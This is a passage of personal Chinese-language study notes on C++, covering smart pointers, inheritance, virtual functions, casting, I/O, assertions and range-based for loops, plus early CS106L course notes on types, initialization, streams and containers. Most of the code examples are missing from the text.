与内部使用单个指针的 std::unique_ptr 不同，std::shared_ptr 使用两个指针：一个指向资源，另一个指向控制块（control block）。控制块包含了资源的引用计数，当 std::shared_ptr 被销毁时，引用计数减一，当引用计数为 0 时，资源被销毁。
这也解释了为什么独立地创建两个 std::shared_ptr 会导致资源被释放两次：因为这两个 std::shared_ptr 指向不同的控制块，它们各自维护着资源的引用计数，因此当其中一个 std::shared_ptr 被销毁时，它会减少资源的引用计数，但是另一个 std::shared_ptr 并不知道这个资源已经被销毁，因此当它被销毁时，它会再次尝试释放资源。
当我们用现有的 std::shared_ptr 初始化一个新的 std::shared_ptr 时，这两个 std::shared_ptr 指向同一个控制块，因此它们共享资源的引用计数，因此只有当最后一个 std::shared_ptr 被销毁时，资源才会被销毁。
继承¶
C++ 的继承发生在类与类之间，在继承关系中，被继承的类称为父类（parent class）、基类（base class）或超级类（superclass），继承的类称为子类（child class）、派生类（derived class）或衍生类（subclass）。
- 子类会从父类中继承行为（成员函数）和属性（成员变量），这些变量和函数会成为子类的成员变量和函数，子类可以通过继承来重用父类的代码，从而减少代码的重复。
- 子类本身也是一个独立的类，可以定义自己的成员变量和成员函数，也可以重载父类的成员函数。
假设我们有一个类 A，并且 B 继承自 A
像这样在 : public 后接上要继承的类的名称，我们称之为公共继承（public inheritance）。
如果我们再让一个类 C 也继承 A，一个类 D 继承 B，那么派生图（derivation diagram）看起来就像下面这样，形成了一个树形结构，我们称之为继承树（inheritance tree）。
派生图
graph BT;
B--->A
C--->A
D--->B
派生类有两部分内容，一部分内容来自于它继承的类，另一部分内容是它自己的。当我们构造一个派生类时，会首先构造基类的部分（调用基类的构造函数），然后再构造自己特有的部分（调用派生类的构造函数）。
继承树中的一个派生类在构造时，会从最基本的类（继承树的顶端）开始，从上至下一次构造每一个子类，最后达到我们希望构造的类为止。
继承链
这个例子中，B 继承自 A，C 继承自 B，D 继承自 C，构成了一条继承链。
当我们通过下面的程序构造这些类时
得到的输出结果将是
从中我们可以看出整个继承链的构造顺序。
派生类的初始化¶
派生类的缺点之一是当我们创建一个派生类对象时，不能直接在派生类的构造函数中初始化来自于基类的成员变量。
考虑下面两个类，其中 Derived 类继承自 Base 类，并且所有的成员变量都是 public 的。
当我们想要创建一个 Derived 对象时，通常会这么做
显而易见的是，在构造函数里我们只能初始化 m_cost，而不能初始化 m_id。除此之外，把 Derived 类的构造函数修改成这样也是无效的。因为 C++ 不允许一个派生类直接在它的构造函数中初始化基类的成员变量——一个成员变量的值只能被它定义的那个类的构造函数中被初始化。
除此之外，我们也不能像这样在构造函数中手动给成员变量赋值：
- 因为如果 m_id 是一个 const 成员变量，它就必须在构造函数的函数体执行前就被初始化，此后它不能再被赋值。
- 即使 m_id 不是 const 成员变量，假如我们允许在构造函数的函数体中给成员变量赋值，那么继承链上的每一个构造函数都有机会修改这个的成员变量，我们无法保证这个成员变量的值是我们预期的那样。
那么我们该如何初始化基类的成员变量呢？答案是调用基类的构造函数！
我们可以在派生类的成员初始化列表中明确选择一个想要调用的基类构造函数，就可以初始化基类的成员变量。
当我们执行下面的代码时：
m_id 和 m_cost 都将会被正确地初始化，得到的输出是
Tip
- 在派生类的构造函数中，我们可以选择调用基类的任何一个构造函数，只要这个构造函数是合法的。
- 无论基类的构造函数出现于派生类的成员初始化列表中的什么位置，它都会首先被执行。
现在我们可以把 Base 和 Derived 类的成员变量都设置为 private，然后通过成员函数来访问这些成员变量。
现在我们实例化的 Derived 对象不再能够直接访问 m_id 了，因为即使 m_id 也属于 Derived 类的一部分，它仍然是 Base 类的私有成员，因此我们只能通过访问函数 getId() 来访问 m_id。
main 函数运行后的输出结果不变，仍是
Tip
C++ 中，成员的访问级别是基于类的，这意味着即使 Derived 即使继承了 Base 的 m_id，它仍然是 Base 的私有成员，Derived 不能直接访问它，只能通过 Base 的公有成员函数来访问它。
继承链
回到我们之前提到的继承链，假设 C 继承自 B，B 继承自 A，这时候 C 只能调用 B 的构造函数，而不能直接越过 B 去调用 A 的构造函数。
- 构造函数只能调用从其直接的父类/基类的构造函数，即只能一节一节沿着继承链向上
当派生类被销毁时，析构函数会按照构造函数调用的相反顺序被调用。
例如我们实例化了上面例子的一个 C c{ 5, 4.3, 'R' };，构造函数调用的顺序是 A->B->C，那么析构函数调用的顺序就是 C->B->A。
Warning
如果基类具有虚函数，那么它的析构函数也应该是虚函数，并且继承自它的派生类的析构函数也都要是虚拟的。否则，当我们通过基类指针删除派生类对象时，派生类的析构函数将不会被调用，从而导致资源泄漏。
访问说明符¶
C++ 还有第三个访问说明符：protected，它仅在类继承的语境下有效。protected 访问说明符允许类成员被本类的其他成员、友元和派生类访问，但是不可从外界被访问。
类有三种不同的继承方式：public，protected 和 private。当不选择继承的类型时，默认选择 private 继承（类似于当不指定访问级别时，类中的成员默认为 private）。
下面我们将讨论三种继承类型，在此期间需要始终牢记下面的几条规则：
- 一个类始终可以访问自己的（非继承的）成员
- 外界在访问一个类时，访问级别始终基于这个类的访问说明符
- 派生类访问继承于基类的成员时，始终基于基类的访问说明符和它所使用的继承类型
public inheritance¶
公共继承是最常用的继承方式，其他两种继承事实上很少会遇见。公共继承一个基类时，继承的 public 成员仍是 public 的，继承的 protected 成员仍是 protected 的，继承的 private 成员仍是无法从派生类直接访问的。
public inheritance
除非有一些特定的理由，否则一般而言都使用公共继承。
protected inheritance¶
保护继承是最少见的继承方式，除非在极其特殊的情况下，它几乎不会被使用。在保护继承中，继承的 public 和 protected 成员都变成了 protected 的，继承的 private 成员仍然是无法从派生类直接访问的。
private inheritance¶
在私有继承中，来自于基类的所有成员都会变成私有的，这意味着继承的 public 和 protected 成员都变成了 private 的，继承的 private 成员仍然是无法从派生类直接访问的。
变成 private 的成员并不影响派生类对这些成员的访问，这个变化仅影响在外界试图通过派生类访问这些成员的代码。
private inheritance
我们可以在派生类和基类之间没有明显关系时使用私有继承，但在实践中私有继承的使用频率非常低。
一个例子¶
基类可以无限制地访问自己的成员，外界只能访问公有成员 m_public。
D2 可以无限制地访问自己的成员，也可以访问继承于 Base 的 m_public 和 m_protected，但不能访问 m_private。D2 采用的是私有继承，因此无论是外界代码还是从 D2 派生出来的类，都无法通过 D2 访问 m_public 和 m_protected，因为此时 m_public 和 m_protected 都变成了 private 成员。
D3 可以无限制地访问自己的成员，也可以访问 D2 的 m_public2 和 m_protected2，但不能访问 m_private2。D3 采用的是公共继承，所以 m_public2 和 m_protected2 将会保持自身的访问级别，即 m_public2 是 public 的，m_protected2 是 protected 的。
D3 无法直接访问 Base 的 m_public 和 m_protected，因为当 D2 继承它们时，它们变成了 private 成员。
Abstract
| Base class | inherited publicly | inherited privately | inherited protectedly |
|---|---|---|---|
| Public | Public | Private | Protected |
| Protected | Protected | Private | Protected |
| Private | Inaccessible | Inaccessible | Inaccessible |
调用与覆盖继承的函数¶
默认情况下，派生类继承了基类中定义的所有行为（成员函数）。当在派生类对象上调用成员函数时，编译器首先查看派生类中是否存在名称匹配的函数
- 如果存在，所有名称匹配的成员函数都将被考虑，并通过重载解析来寻找最佳匹配。
- 如果不存在，则沿着继承链向上通过同样的方式依次检查每一个父类。
当我们在派生类中重新定义一个在基类中具有相同名称的成员函数时，函数调用的访问说明符将会与派生类中的函数的访问说明符相匹配。例如下面的例子中，Base::print() 是 private 的，但 Derived::print() 是 public 的，可以直接被外界代码调用。
Example
如果我们想要在派生类对象中调用基类的一个函数，我们可以使用作用域解析运算符 :: 来指定我们想要调用的函数。
Example
注意这里必须要使用 Base::identify()，而不是 identify()。如果直接调用 identify()，会导致递归调用 Derived::identify()，从而导致无限循环。
:: 并不适用于我们想要调用基类的友元函数的情况，因为本质来说友元函数并不属于积累的一部分，例如 operator<<。这时候我们可以通过 static_cast 进行类型转换，从而调用基类的友元函数。
Example
这里我们通过 static_cast<const Base&>(d) 将 Derived 对象转换为 Base 对象，从而调用 Base 的 operator<<。
这段程序将会输出
派生类中的重载解析
考虑下面的代码
当我们调用 d.print(5) 时，编译器会查找一个与 print 匹配的函数，它会首先查找 Derived 类中的函数。它找到了 Derived::print(double)，于是就把 5 隐式转换为 double，然后调用这个函数。它不会再去查找 Base 类中的函数，即使 Base 类中有一个 print(int) 函数。
如果我们确实希望 d.print(5) 调用 Base::print(int)，我们可以使用 using 来使 Base 类中的函数在 Derived 类中可见。
只需将 Derived 类修改为
即可
多重继承（多继承）¶
多重继承（多继承）（multiple inheritance）是指一个类继承自多个基类的情况。在 C++ 中，一个类可以继承自多个基类，这种情况下，派生类将会继承所有基类的成员。
要使用多继承，我们只需要在继承时指定多个基类，基类之间用逗号隔开。
继承图看起来像是这样
graph BT;
C--->A
C--->B
多继承导致的问题¶
当多个基类包含相同名称的函数时，会导致歧义。例如，如果 A 和 B 都有一个名为 print() 的函数，那么当我们在 C 中调用 print() 时，编译器无法确定我们想要调用哪一个 print()。
我们可以通过明确指定要调用哪一个版本的 print() 来解决这个问题。
尽管这种解决办法并不算复杂，但是当继承链较长并且包含多个基类时，这种问题可能会变得非常复杂。
比这更糟糕的是菱形继承（diamond inheritance）问题，这是一种特殊的多重继承问题，其中一个类继承自两个类，这两个类又继承自同一个类。例如下面的这个例子：
graph BT;
B--->A
C--->A
D--->B
D--->C
综合以上各种原因，我们最好避免使用多重继承。
虚函数（虚拟函数）¶
虚函数（virtual function）是一种特殊的成员函数，当被调用时，它将被解析为最接近引用或指针所指的派生类对象的函数。
如果派生版本的函数与基类版本的函数具有相同的函数签名（函数名、参数类型以及 const）和返回类型，就称这样的函数是覆盖的（override）。
不使用虚函数
这段代码的输出是 rBase is a Base，而不是 rBase is a Derived。这是因为 rBase 被认为是一个指向 Base 类型的指针，它只能访问 derived 的 Base 部分，因此它调用的是 Base::getName()，而不是 Derived::getName()。
上述情况对于 Base* pBase{ &derived }; 也是一样的。
要使一个函数成为虚函数，我们需要在函数声明前加上 virtual 关键字。
这是上面这个例子改为使用虚函数的版本。
使用虚函数
这段代码的输出是 rBase is a Derived，这是因为 getName() 是一个虚函数，它会被解析为最接近引用或指针所指的派生类对象的函数。
由于 Base::getName() 是虚函数，因此在评估 rBase.getName() 时，编译器会查看是否有“更派生”的版本的 getName() 函数。在这种情况下，Derived::getName() 是一个更符合要求的版本，因此它将被调用。
Tip
虚函数解析仅在通过指针或引用去调用一个类类型对象的虚函数时发生。
虚函数让编译器能将指针/引用的类型和实际被指向的对象的类型区分开。当我们直接在一个对象上调用虚成员函数时，将始终调用与这个对象的派生类匹配的函数。
多态
在编程中，多态（polymorphism）泛指一个实体具有多种形式的能力。
- 编译时多态（compile-time polymorphism）是指编译器解析方式的多态性，包括重载解析和模板解析等。
- 运行时多态（run-time polymorphism）是指程序在运行时选择调用的函数的多态性，包括虚函数解析等。
- 派生类函数的签名必须与基类中虚拟函数的签名完全相同，否则它不会被视为覆盖，而是一个新的函数。这种情况下程序或许能正常编译，但将不会按照我们的预期运行
-
如果一个成员函数是 virtual 的，那么从这个类派生出来的所有类的相同函数都将被隐式声明为虚函数，除非它们被声明为非虚函数。
- 这条规则并没有逆——如果派生类中的覆盖是一个虚函数，基类中的函数也不会自动变成虚函数。
不要在构造函数或析构函数中调用虚函数！
- 当创建一个派生类时，它的基类部分会被首先构造，如果我们想要在 Base 的构造函数中调用一个虚函数，那么这个虚函数将会被解析为 Base 的版本，因为此时派生类部分还没有可以被调用的函数。
- 类似地，当我们在基类的析构函数中调用虚函数时，因为此时派生类的所有函数都已经被销毁，所以调用的将是 Base 的版本。
综上所述，我们不应该在构造函数或析构函数中调用虚函数！
override、final 和 covariant 返回类型¶
override 和 final
C++ 具有两个与继承相关的标识符：override 和 final。它们两个不是关键字，C++ 标准称它们为 identifiers with special meaning，即具有特殊含义的标识符，但通常被称为说明符。
override¶
正如我们之前提到的那样，仅当函数签名和返回类型都完全匹配时，派生类中的虚函数才被视为覆盖。我们有时候希望一个函数成为覆盖，但实际上由于各种原因它并没有把来自于基类的函数覆盖，而这就是 override 该发挥作用的时候了。
考虑下面的这个例子：
Example
由于 rBase 是指向 B 对象的 A 类型参考，我们实际上想要做的是调用 B::getName1() 和 B::getName2()。但是由于 B::getName1 和 B::getName2 的签名与 A::getName1 和 A::getName2 不完全匹配，因此它们不会被视为覆盖。
因此，这段程序将会输出
在更复杂的程序中，像这样错误地调用了意料之外的函数可能导致更大的错误，并且这也难以调试。为了解决这种我们希望成为覆盖，但并没有成为覆盖的情况，我们可以把 override 说明符应用到一个虚拟函数上，以告知编译器这个函数必须是一个覆盖。
Tip
override 说明符应当被放置在成员函数声明的末尾，如果这个成员函数是 const 的，那么就放置在 const 关键字之后。例如
如果一个被标记为 override 的函数并没有覆盖任何基类的函数（或应用于一个非虚函数），那么编译器将会报错。
Example
这段程序会产生两个编译错误，一个发生在 B::getName1()，另一个发生在 B::getName2()。这是因为 B::getName1() 的参数类型与 A::getName1() 不匹配，B::getName2() 比 A::getName2() 多了一个 const。
使用 override 不会造成性能上的损失，并且它能确保我们确实覆盖了一个基类的函数，因此我们应该用 override 来标注所有的覆盖虚函数。
此外，由于 override 已经假定了这个成员函数是虚函数，因此我们不需要再次使用 virtual 关键字。
Abstract
- 在基类的虚函数上使用 virtual 关键字
- 在派生类的覆盖函数上使用 override 说明符，但不使用 virtual 关键字
final¶
有时，我们不希望一个虚拟函数被派生类所覆盖，或是不希望一个类再被其他类所继承，那么我们就可以使用 final 说明符。被指定为 final 的虚函数将不能被覆盖，被指定为 final 的类也将不能被继承，否则将会出现编译错误。
final 说明符也同样应该出现在函数声明的最后位置，如果同时还有 const 和 override，那么就应按照 const override final 的顺序来书写。
Example
这里我们尝试在 C 类中覆盖一个在 B 类中已经被标注为 final 的函数，于是就出现了编译错误。
这里类 B 被标注为 final，因此当我们试图让 C 继承 B 时就会出现编译错误。
协变返回类型¶
在某些情况下，我们希望派生类的覆盖函数能具有与基类函数不同的返回类型，并且仍被视为一个覆盖。如果虚函数的返回类型是指向某些类的指针或引用，那么覆盖函数将可以返回从这个类派生出来的类的指针或引用，并且仍被视为一个覆盖。这称之为协变返回类型（covariant return types）。
Example
这段程序将会输出
需要强调的是，C++ 无法动态选择类型，因此我们始终将获得与函数调用者相匹配的返回类型。
在上面的示例中，我们首先调用 d.getThis()。由于 d 是 Derived 类的，这将会调用 Derived::getThis()，于是我们得到 Derived*。接着我们使用这个指针调用了 Derived::printType()。
然而，当我们调用 b->getThis() 时，由于 b 是一个指向了 Derived 类的 Base 指针，而 Base::getThis() 是一个虚函数，所以我们实际上调用的是 Derived::getThis()。这时候有趣的事情就发生了，虽然 Derived::getThis() 返回的类型是 Derived*，但由于我们是通过 Base* 来调用的，我们将收到这个函数在 Base 版本的返回值 Base*。接着我们使用这个 Base* 调用了 Base::printType()，它不是一个虚函数，因此实际上调用的就是它自己，输出 returned a Base。
Tip
如果 Base::printType() 是一个虚拟函数，那么在第二种情况下被调用的将是 Derived::getThis()。
虚析构函数¶
当我们没有提供析构函数时，C++ 编译器会为我们的类提供一个默认的析构函数，但有时候我们需要自己定义一个析构函数（尤其是在这个类需要处理动态分配的资源时）。
在继承的语境下，我们始终应该让我们的析构函数是 virtual 的。这是因为当我们 delete 一个指向派生类对象的基类指针时，我们希望调用派生类的析构函数，而不是基类的析构函数。比如下面的这个例子：
因为 base 是一个 Base 指针，当我们对它使用 delete 时，程序发现 Base 的析构函数不是虚函数，因此它只会调用 Base 的析构函数，而不会调用 Derived 的析构函数。这将导致 Derived 类中动态分配的内存泄漏，并输出
当我们希望调用派生类的析构函数时，我们应该将基类的析构函数声明为虚函数。
现在这个动态数组的内存将会被正确地释放，输出
Note
当处理继承关系时，我们应该始终将基类的析构函数显式声明为虚函数。
就像普通的虚函数一样，如果基类的析构函数是虚函数，那么派生类的析构函数也将自动成为虚函数，因此我们不需要仅仅为了把析构函数标记为 virtual 而在派生类中再次声明一个空的虚析构函数。
Tip
如果我们希望基类拥有一个空的虚析构函数，我们可以这么定义：
纯虚函数、抽象类和接口类¶
纯虚函数和抽象基类¶
C++ 允许我们定义一种没有任何函数体的特殊的虚函数，称为纯虚函数（pure virtual function）。纯虚函数相当于一个占位符，它必须被派生类重新定义。
要创建一个纯虚函数，我们只需要将函数赋值为 0。
一个类中包含了至少一个纯虚函数的类称为抽象基类（abstract base class）。抽象基类不可被实例化。
Tip
任何具有纯虚函数的类也应该具有虚析构函数。
带有定义的纯虚函数
事实上我们也可以创建一个具有定义的纯虚函数，只不过这个定义是在类的外部。
这种情况下 getOne() 仍被认为是一个纯虚函数，并且 A 仍被视为一个抽象基类（不可实例化）。继承 A 的所有类都必须为 getOne() 提供一个定义，否则也将被视为抽象基类。
如果我们对基类提供的默认纯虚函数的实现很满意，就可以直接调用抽象基类中的实现，例如：
Note
析构函数也可以是纯虚的，但必须给出一个定义，以便于在销毁派生类对象时调用它。
接口类¶
接口类（interface class）是一个没有成员变量的类，并且所有的函数都是纯虚的。
接口类有时以 I 开头来命名，例如
面向对象语言中的接口类
在 Java 和 C# 等现代的编程语言中具有 interface 关键字，以便于直接定义接口类。虽然 Java 和 C# 不允许在普通的类上使用多继承，但它们允许类继承多个接口类。由于接口类中没有成员变量，也没有函数体，这避免了多继承带来的许多问题，同时也为类的应用提供了较多的灵活性。
dynamic casting¶
C++ 允许隐式地将指向派生类的指针转换为指向基类的指针，如 Derived* 变为 Base*，这个构成有时称为 upcasting。反之，将指向基类的指针类型转换为指向派生类的指针称为 downcasting。
dynamic_cast¶
操作符 dynamic_cast 具有几种不同的功能，但它主要的用途就是用于实现 downcasting。dynamic_cast 会检查转换是否有效，如果有效，它将返回一个指向派生类对象的指针，否则返回一个空指针。
Example
上面这个例子之所以起作用，是因为 b 实际上指向的对象确实是一个 Derived 对象，因此进行 dynamic_cast 不会出现问题。但是这里我们实际上做出了一个假设：假设 b 指向的对象确实是一个 Derived 对象。如果这个假设不成立，那么 dynamic_cast 将失败，它会返回一个空指针 nullptr。
Note
dynamic_cast 成功时，返回一个指向派生类对象的指针；失败时，返回 nullptr。
为了让上面这个程序更安全，我们最好确保 dynamic_cast 确实成功了
使用 static_cast 进行 downcasting¶
static_cast 也可以用于 downcasting，它的区别在于 static_cast 不会检查转换是否有效，这让它更加快速，但也更加危险。如果这个指针指向的不是一个派生类对象，那么利用 static_cast 去访问派生类的成员将会导致未定义行为。
- 我们最好仅在非常非常确定要进行转换的指针是指向派生类对象时才使用
static_cast。
dynamic_cast 与参考¶
dynamic_cast 也可用于对参考的转换，但由于不存在所谓的“空参考”，因此如果转换失败，dynamic_cast 将抛出一个类型为 std::bad_cast 的异常。
其他¶
头文件¶
使用头文件的目的是为了将函数声明和定义分离，使得代码更加清晰易读。
为了避免头文件被多次包含，我们可以使用 #pragma once 或者 #ifndef、#define、#endif 来防止头文件被多次包含。
| main.cpp | |
|---|---|
当然，我们也可以使用 #pragma once 来防止头文件被多次包含。
Note
由于 #pragma once 不是由 C++ 标准定义的，因此某些编译器可能不会实现它，使用 #ifndef、#define、#endif 是更加通用的做法。但对于 modern C++ 编译器来说，#pragma once 是一个更加简洁的选择。
输入输出¶
std::endl vs '\n'
std::endl实际上会完成两件事：输出一个换行符并刷新输出缓冲区'\n'只会输出一个换行符。
由于刷新缓冲区是一个相对耗时的操作，因此在大多数情况下，我们应该使用 '\n' 而不是 std::endl。
副作用
std::cout << "Hello " << "world!" 的副作用是输出 "Hello world!"，它实际上相当于 (std::cout << "Hello ") << "world!"，括号内的返回值是 std::cout，因此可以连续使用 << 运算符，先输出 "Hello "，再输出 "world!"。
布尔变量
std::cout 会将 true 输出为 1，将 false 输出为 0。
例如
如果我们想要输出 true 或 false，我们可以使用 std::boolalpha 操纵符。
std::noboolalpha 操纵符来恢复默认的输出格式。
提取空白字符
直接使用 std::cin 提取字符会忽略前导和数据之间的空白字符，
输入流为 a b，输出结果为
如果我们想要把空白字符也提取到 ch 中，我们可以使用 std::cin.get(ch)。
输入流不变，输出结果为
逻辑异或¶
在 C++ 中并没有提供逻辑异或的运算符（^ 是按位异或），但我们可以使用 != 来实现逻辑异或，比如 a 逻辑异或 b 可以写成 a != b。
a != b等价于a xor ba != b != c等价于a xor b xor c
但是这里要求 a、b 和 c 都是布尔值，如果我们要进行非布尔值的异或运算，我们可以用 static_cast<bool> 来将它们转换为布尔值，但是其实还有更简单的方法：（这么写的原因自己体会吧懒得解释了）
if constexpr statement¶
在 C++17 中添加了 if constexpr 语句，它和普通的 if 语句的不同之处在于它要求条件表达式是一个常量表达式（在编译时就能确定布尔值），因此可以实现编译时对条件分支语句进行优化：
- 当常量表达式的值是 true 时，编译器会把整个 if-else 块替换为 true 分支的代码
-
当常量表达式的值是 false 时
- 如果有 false 分支（else case），编译器会把整个 if-else 块替换为 false 分支的代码
- 如果没有 false 分支，编译器会把整个 if-else 块替换为空语句
上面的例子会被优化为
assert¶
- 通过
#include <cassert>来使用assert宏 - 当 assert 语句的计算结果为 false 时，程序将会停止执行
-
可以通过一个小技巧来使得 assert 语句更具描述性：添加一个由
&&连接的字符串字面量当 assert failed 时，这个字符串也会出现在输出中，帮助我们更好地理解程序发生错误的原因
除了常规的 assert 之外，C++ 还提供了另一种类型的 assert 方式：static_assert，它是在编译时检查的，而不是在运行时检查的。格式为
例如
- 由于
static_assert是在编译时计算的，因此 condition 必须是常量表达式 static_assert可以放置在代码文件中的任何位置（甚至在全局命名空间中）- 在 C++17 之前，diagnostic_message 必须作为第二个参数提供；从 C++17 开始，如果省略了 diagnostic_message，编译器会自动生成一个默认的错误消息
for-each loop¶
在 C++ 中，除了我们常用的 for 循环之外，还有一种基于范围的 for 循环（range-based for loop），也称为 for-each 循环，它可以用来遍历容器中的元素。
基于范围的 for 循环的语法结构如下
在这里，element_declaration 是一个新的变量，用于存储数组中的每个元素，array_object 是一个数组或容器，statement 是要执行的语句。在这个循环体中 array_object 的每一个元素都将被迭代，每一次迭代，当前元素的值都会被赋给 element_declaration，然后执行 statement。
Example
- 从上面这个例子我们可以注意到，我们不需要知道容器的大小，也不需要使用下标来访问容器中的元素
- 如果需要遍历的容器没有元素，那么 for-each 循环体将不会执行
因为一般而言 element_declaration 应当具有与数组元素相同的类型（以防止出现奇怪的类型转换），我们可以在这里使用 auto 关键字来自动推导它的类型，比如
而当容器中的元素在复制时的开销比较大时，我们可以改为使用 const auto& 来避免复制
Info
如果这里的引用不是 const 的，那么我们也可以在这个循环体中修改容器中的元素。
- 当我们希望得到一个可修改的副本时，使用
auto。 - 当我们希望修改容器中的元素时，使用
auto&。 - 当我们希望避免复制时（只查看元素而不修改），使用
const auto&。
Tip
由于 for-each 循环是基于范围的，因此它只能用于支持迭代器的容器，比如std::vector、std::list、std::set、std::map 等，但它也可用于 C 风格数组（不能用于退化为指针的数组）。
Extra
上面我们使用的 for-each 循环只能进行正序迭代，从 C++20 开始，我们可以使用 std::views::reverse 来得到到一个逆序的视图，从而实现逆序迭代。
输出结果为
注释¶
- 对于库、文件和函数，通常把注释放在库/文件的顶部，或是紧接在函数上方
-
注释用于描述库、程序、函数的功能
explain what they do
-
有时注释还可用于描述代码如何实现
explain how they do it
-
在具体的语句层面，注释通常用于解释代码的目的和原因，而非代码正在做什么
假如代码很复杂以至于需要解释，那么通常需要重构代码而非添加注释
explain why they do it
CS106L¶
约 5518 个字 391 行代码 7 张图片 预计阅读时间 27 分钟
Info
速通 CS106L 2024 Autumn 之后记录的粗略的笔记，主要来自于课程的 slides，一定程度上也是对我的 C++笔记 的补充。
CS106L 的 slides 和 assignments 解答可以在我的仓库 CS106L-2024-Autumn 中找到。
类型与结构体¶
类型¶
C++ 是静态类型语言，在编译时就需要确定每个实体（变量、函数等）的类型，并且它们的类型从被定义之后就不能改变。
动态类型语言（如 Python）在运行时才会确定类型，并且在运行过程中会不断根据它们当前的值来确定类型。
结构体¶
结构体（struct）是一种用户自定义的，由多个成员变量组成的数据结构。它可以作为函数的参数、返回值，也可以作为容器的元素，从而实现一次传递多个数据。
结构体
std::pair¶
std::pair 在 first 和 second 来访问其中的元素。
我们可以直接使用 std::make_pair 来创建一个 pair 对象，并使用 auto 来自动推断类型。
初始化与引用¶
初始化¶
C++ 有三种初始化方式：
- 直接初始化（direct initialization）
- 统一初始化（uniform initialization）
- 结构化绑定（structured binding）
直接初始化¶
直接初始化有两种形式
C++在直接赋值时不会进行类型检查，这里直接把 double 类型的 12.0 赋值给了 int 类型的变量，会发生窄化转换（narrowing conversion），可能会导致精度的丢失。
统一初始化¶
统一初始化使用花括号 {} 来初始化变量，它可以防止隐式类型转换，也可以避免窄化转换。
12.0 是 double 类型的，因此这里对 num1 的初始化会出现编译错误，阻止窄化转换；虽然 num2 是 float 类型的，但是因为它们都是浮点类型的数据，double 到 float 的转换是安全的，因此这里不会报错。
统一初始化的优点在于
- 安全性：统一初始化禁止了窄化转换，从而避免出现意料之外的情况
- 一致性：统一初始化可以用于所有类型的初始化场景，包括变量、数组、结构体、类等
结构化绑定¶
结构化绑定是 C++17 中引入的新特性，允许我们通过结构体、函数的返回值等方式，一次性对多个变量进行初始化。
- 结构化绑定允许我们使用在编译时大小确定的数据结构（如 tuple、pair、array、struct）来一次性初始化多个变量
- 在使用结构化绑定时，我们只能使用
auto关键字来自动推断变量的类型
引用¶
引用是某个已经存在的变量的别名，使用 & 符号来定义。对某个变量的引用和这个变量的标识符指向的是内存中的同一个地址，因此对引用的操作会直接影响到原变量。
- 按值传递（pass by value）：函数的参数是一个变量的拷贝，对参数的修改不会影响原变量
- 按引用传递（pass by reference）：函数的参数是原变量的引用，对参数的修改会直接影响原变量
左值与右值
从字面意思来看，左值就是可以放在赋值运算符左边的值，右值就是只能放在赋值运算符右边的值。但具体来说
-
左值：是一个具有持久身份、可以取地址的实体，通常对应一个具名对象（变量或引用等）
- 可以放在赋值运算符左侧（e.g.
int x = 5;） - 有明确的内存地址（可通过
&取地址） - 生命周期超过当前表达式
- 可以放在赋值运算符左侧（e.g.
-
右值：是一个临时的表达式，通常无法取地址，通常对应一个匿名对象或表达式的结果
- 只能放在赋值运算符右侧（e.g.
10 = a非法） - 通常是字面量、临时对象或表达式计算结果等
- 生命周期仅限于当前表达式
- 只能放在赋值运算符右侧（e.g.
流（stream）¶
基本概念¶
流（stream）：一种通用的 C++ I/O 抽象，用于读取和写入数据。
- cin：标准输入流，用于读取用户输入
- cout：标准输出流，用于输出信息（无缓冲）
- cerr：标准错误流，用于输出错误信息（无缓冲）
- clog：标准日志流，用于记录非关键事件的日志（有缓冲）

cout¶
std::cout 流是 std::ostream 的一个实例，能将数据输出到控制台上，基本运算符为 <<（插入符）。
cin¶
std::cin 流是 std::istream 的一个实例，能从控制台读取数据,基本运算符为 >>（提取符）。
字符串流¶
字符串流（stringstream）可用于处理混合数据类型的情况。
Warning
使用字符串流时 extracted_quote 不能一次性把剩余的字符串全部提取出来，因为每一次提取都会按照空白符（包括空格、缩进、换行）进行分割，因此一次只能读取一个单词。
为了一次性读取一行输入中剩余的内容，应该使用 getline() 函数。
getline()¶
函数接口为 istream& getline(istream& is, string& str, char delim)
getline()读取一串输入流is，直到读取字符delim时停止，将读到的数据存入缓冲区str中delim默认为\ngetline()读取的数据是会把字符delim“消耗（consumes）” 掉，也会读取这个字符
上面的代码中提取字符的部分修改为以下语句，就可以让extracted_quote提取出剩余的字符串：
输出流¶
输出流：一种向目标/外部源写入数据的方法
- 使用
<<运算符“发送”输出流
输出流的字符在被释放（flush）到目的地之前会被存储在一个中间缓冲区内，std::endl 除了换行之外，还会立即执行一次 flush 操作
- 一般而言，更建议使用
\n而非std::endl——一定程度上减少 flush 次数以提高性能。
输出文件流¶
输出文件流（output file streams）的类型为 std::ofstream，同样采用 << 插入符将数据送入文件内。
std::ofstream 常用的几种方法有
is_open()open()close()fail()
Example
输入流¶
输入流 std::cin 也同样有缓冲区，它会把输入流数据逐个读入缓冲区内，直到遇到空白字符为止。
考虑下面的代码：
std::cin 的缓冲区的内容为：

我们很容易知道 pi 的值为 3.14，name 的值为字符串 "Fabio"，但类型为 double 的 tao 由于接收到了类型不匹配的数据 "Ibanez"，因此它的值被设置为 0，并抛出了错误信息。事实上我们希望 name 的值为完整的字符串 "Faibio Ibanez"。
我们不难想到使用 getline() 来提取这个完整的字符串。但此时我们只会读取到紧接在 3.14 后面的 \n，然后就会因为遇到了换行符而停止向 name 读入数据，从而使得在这个 \n 后的数据被抛弃掉。
解决办法是连续使用两次 getline()：先读取掉第一个换行符，在通过第二次 getline() 获取正确的数据
这提醒我们在将 std::cin 和 getline() 混合使用时，我们需要格外注意由于读取规则不同而导致的读取错误，如果可以，应尽量避免将它们混合使用。
输入文件流¶
输入文件流（input file streams）的类型为 std::ifstream，使用 >> 提取符从文件中读取数据。它的各种方法输出文件流非常类似：
Example
容器¶
Info
CS106L 默认学生已经修读（或同时正在修读 CS106B/X），因此它对于各种容器的使用方法没有介绍得很详细，只讲解了少数几个容器的内容，如果希望了解更多关于容器的知识，可以从 cppreference 或其他网络资源了解。
几个常见容器及其方法¶
C++ 许多容器处于 C++ Standard Template Library (STL) 中，所有的 STL 容器都是模板，包括
std::vectorstd::setstd::stackstd::queuestd::mapstd::unordered_mapstd::unordered_setstd::priority_queuestd::dequestd::array
vector¶
std::vector<int> vec;：创建新的空向量std::vector<int> vec(n);：创建一个包含 n 个 0 的向量std::vector<int> vec(n, k);：创建一个包含 n 个值 k 的向量vec.push_back(k);：将 k 加在向量的末端vec.clear();：移除向量内所有元素int k = vec[i];：获取索引为 i 的元素（不检查是否索引越界）int k = v.at(i);：获取索引为 i 的元素（检查是否出现索引越界）vec.size();：查看向量大小（当前元素个数）vec.capacity()：查看当前向量容量（当前占据的内存空间可以容纳多少个元素，而不需进行动态内存分配）
deque¶
